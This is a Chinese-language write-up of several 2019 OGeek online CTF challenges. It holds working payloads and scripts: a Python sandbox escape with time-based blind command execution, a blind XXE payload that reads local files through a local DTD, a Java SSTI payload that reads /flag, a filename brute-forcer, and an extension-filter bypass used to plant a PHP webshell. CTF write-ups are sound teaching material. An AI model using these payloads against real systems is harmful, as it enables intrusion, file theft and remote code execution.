

2019 ogeek线上赛部分题解WriteUp
Pybox
测试发现语法错误返回try again !XD ，使用到被ban的关键字os 返回的是os can not be used!
并且没有回显的信息，根据题目的提示cut flag sleep 这三个关键字，猜测可能是基于时间来盲打flag
这里os 和sys 关键字被过滤了，测试一下import getattribute
os 模块仍然遭到禁用
试到下面的，用闭包抽出来外部参数的变量 （Python3 所以 func_closure 和 closure 都可以使） 来引用 os 模块，再调用 system，因为 system 和 os 被屏蔽了，需要用加号连接起来绕过屏蔽。测试执行 sleep 5 成功了。
那么接下来就是想办法逐位读取flag，使用到题目提示的cut -b 命令
然后用linux的if then 语句将读取flag的判断语句与条件sleep结合起来
命令如下：
1 a=`cut -b 1 /home/flag`;if [ $a = 'a' ];then sleep 5;fi
最终payload如下：
1 __import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('a=`cut -b %s /home/flag`;if [ $a = "%s" ];then sleep 5;fi')
exp如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 from pwn import *import times = "0123456789qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM{}" flag = "" payload = '''__import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('a=`cut -b %s /home/flag`;if [ $a = "%s" ];then sleep 5;fi')''' for i in range(1 ,60 ): p = remote('47.112.108.17' ,12312 ) p.recvuntil('>>>' ) print 'try:' +str(i) for c in s: ti = time.time() t = payload % (str(i),c) p.sendline(t) p.recvuntil('>>>' ) if time.time() > ti+5 : flag = flag + c print flag break p.close()
运行得flag：flag{Pyt5onS4ndB0x4pParmOrS4ndb0xsorry}
2019 zsteg分析出图片有一串疑似base64加密得字符串：QW8obWdIW11XTyxyOFVTM0dNMlIySSVZQjdzdA==
base64解密得：Ao(mgH[]WO,r8US3GM2R2I%YB7st
再利用base85解密：
得到flag：flag{~h!%3W-9jKB6(fG}
LookAround 查看源码发现有个后台定时发送xml数据
应该是考察xxe
测试发现有报错信息
但是查询到结果却没有回显，这就需要利用blind xxe
参考：https://www.freebuf.com/vuls/207639.html
blind xxe思想就是将数据通过外部服务器或者报错信息带出来
首先尝试http协议，发现访问不了外部服务器，会出现超时的情况
那么只能考虑第二种，利用本地dtd文件报错信息带出数据
首先就要猜出本地dtd文件的绝对路径
参考：https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation
将里面的所有dtd文件的绝对路径尝试一遍，发现了本题dtd文件路径：
/usr/share/xml/fontconfig/fonts.dtd
接下来就是直接套里面的payload了
1 2 3 4 5 6 7 8 9 10 11 12 13 <!DOCTYPE message [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd"> <!ENTITY % expr 'aaa)> <!ENTITY % file SYSTEM "file:///FILE_TO_READ"> <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///abcxyz/%file;'>"> %eval; %error; <!ELEMENT aa (bb'> %local_dtd; ]> <message></message>
flag就在报错信息中：flag{f1c6811d4dce2ae37613cee977febe305f4de8fe}
Easy Realworld Challenge 题目右侧命令行窗口有个log viewer选项可以看到之前登录记录
用telnet执行ftp交互，端口号为21，用户名密码为ctf成功登入
然后使用help查看ftp的所有命令

用pasv开启被动传输
服务器返回给我们传输连接服务器的ip地址和端口号，ip地址是172.18.0.3，端口号是105*256+19=26899
开启一个新的窗口，再次用telnet连接
然后用retr命令来传输/flag文件
Render
查看源代码发现了后台的请求代码，将我们的json数据发送到/render后接受返回信息
一开始以为是xxe，其实是ssti
fuzz测试发现
1 {"content":"[[${1+1}]]"}
1+1被执行了
因为是java文件，需要用java得方法来读取，参考：https://dotblogs.com.tw/cylcode/2018/09/21/170510
payload：
1 {"content":"[[${new java.io.BufferedReader(new java.io.FileReader('/flag')).readLine()}]]"}
enjoy your self 复现环境：buuoj
打开靶机，看到如下代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 <?php error_reporting(0 ); include "../../utils/utils.php" ;if (isset ($_REQUEST['filename' ]) and preg_match("/^\w{8}$/" , $_REQUEST['filename' ])){ $filename = strtolower($_REQUEST['filename' ]); touch("backup/{$filename}.txt" ); unlink(glob("backup/*" )[0 ]); } else { highlight_file(__FILE__ ); } ?>
能写一个八位字母数字和下划线的txt文件，写后通过glob列出backup目录下第一个文件，然后删除该文件，
说明backup目录下一开始就存在一个八位数的txt文件，需要我们爆破
通过如下脚本爆破提示文件：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 import requestsimport times = "zyxwvutsrqponmlkjihgfedcbaZYXWVUTSRQPONMLKJIHGFEDCBA9876543210" url1 = "http://8bac7f4c-9454-4ea6-a387-2d6a087f6df1.node3.buuoj.cn/users/adeee0c170ad4ffb110df0cde294aecd/?filename=" url2 = "http://8bac7f4c-9454-4ea6-a387-2d6a087f6df1.node3.buuoj.cn/users/adeee0c170ad4ffb110df0cde294aecd/backup/" result = "" for i in range(7 ): count = 0 for c in s: time.sleep(0.5 ) filename = result + c + (7 -i)*'z' print filename r1 = requests.get(url1+filename) r2 = requests.get(url2+filename+'.txt' ) if r2.status_code == 404 : count1 = 0 flag = 1 while count1 < 10 : time.sleep(0.5 ) print filename r1 = requests.get(url1+filename) r2 = requests.get(url2+filename+'.txt' ) if r2.status_code == 200 : flag = 0 break count1 = count1 + 1 if flag == 1 : result = result + s[count - 1 ] print "result: " + result break count = count + 1 for c in s: result = "aefebab%s" % (c) url3 = "http://8bac7f4c-9454-4ea6-a387-2d6a087f6df1.node3.buuoj.cn/users/adeee0c170ad4ffb110df0cde294aecd/backup/" +result+'.txt' r3 = requests.get(url3) if r3.status_code == 200 : print 'result:' +result+'.txt'
爆出提示文件：aefebab8.txt
访问后获得源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 <!-- src/8 a66c58a168c9dc0fb622365cbe340fc.php --> <?php include "../utils/utils.php" ;$sandbox = Get_Sandbox(); if (isset ($_REQUEST['method' ])){ $method = $_REQUEST['method' ]; if ($method == 'info' ){ phpinfo(); }elseif ($method == 'download' and isset ($_REQUEST['url' ])){ $url = $_REQUEST['url' ]; $url_parse = parse_url($url); if (!isset ($url_parse['scheme' ]) or $url_parse['scheme' ] != 'http' or !isset ($url_parse['host' ]) or $url_parse['host' ] == "" ){ die ("something wrong" ); } $path_info = pathinfo($url); if (strpos($path_info['filename' ], "." ) !== false ){ die ("something wrong" ); } if (!Check_Ext($path_info['extension' ])){ die ("something wrong" ); } $response = GetFileInfoFromHeader($url); $save_dir = "../users/${sandbox}/uploads/{$response['type']}/" ; if (is_dir(dirname($save_dir)) and !is_dir($save_dir)){ mkdir($save_dir, 0755 ); } $save_path = "{$save_dir}{$path_info['filename']}.{$response['ext']}" ; echo "/uploads/{$response['type']}/{$path_info['filename']}.{$response['ext']}" ; if (!is_dir($save_path)){ file_put_contents($save_path, $response['content' ]); } } }
审计后发现是要我们通过最后的代码：file_put_contents($save_path, $response['content']);
来写shell，文件名和路径通过GetFileInfoFromHeader函数来获得：
1 2 3 4 $response = GetFileInfoFromHeader($url); $save_dir = "../users/${sandbox}/uploads/{$response['type']}/" ; $save_path = "{$save_dir}{$path_info['filename']}.{$response['ext']}" ; echo "/uploads/{$response['type']}/{$path_info['filename']}.{$response['ext']}" ;
虽然这个函数我们不知道具体是怎么实现的，但是通过字面意思，可以猜测出是根据响应包的Content-Type字段和响应包的内容，测试一下
首先，需要注意一下Check_Ext，我们访问的url中的文件后缀必须是图片后缀，那么我们就在服务器上设置一个.htaccess文件，把图片文件解析成php文件，这样就能控制响应的头部了，下面访问：
1 ?method=download&url=http://75702e8752a7/11.jpg
然后在服务器的11.jpg中写入代码：
得到路径：
所以说明：
1 2 3 $response['type'] => 响应包Content-Type中/的前半部分 $response['ext'] => 响应包Content-Type中/的后半部分 $response['content'] => 响应包内容
但是，我们如果写入后缀为php，会被替换成jpg
猜测是有对php后缀进行黑名单替换，那么，换成php/呢
还是被替换成了jpg，再换成php/.
发现成功写入php文件，访问：
成功getshell获取flag
最后读取一下utils.php看看源码中是怎么过滤后缀的：
1 2 3 4 5 6 7 8 9 10 11 12 $content_type = curl_getinfo($curl_handle, CURLINFO_CONTENT_TYPE) ?? "image/jpg" ; $content_type = explode(";" , $content_type, 2 )[0 ]; $content_type = ($content_type !== "" and strpos($content_type, "/" ) !== false and strpos($content_type, "htaccess" ) == false ) ? $content_type : "image/jpg" ; $result = explode("/" , $content_type, 2 ); $type = $result[0 ] ?? "image" ; $ext = trim($result[1 ], '/' ) ?? "jpg" ; if (substr_count($ext, ".." ) > 2 or preg_match("/(php|php3|php4|php5|php6|phtml|pht|phpt)$/i" , $ext)){ $ext = "jpg" ; }
发现替换的规则是：/(php|php3|php4|php5|php6|phtml|pht|phpt)$/i，是以php结尾的后缀才会被替换成jpg，而且会把后缀末尾的/去除，所以可以用php/.绕过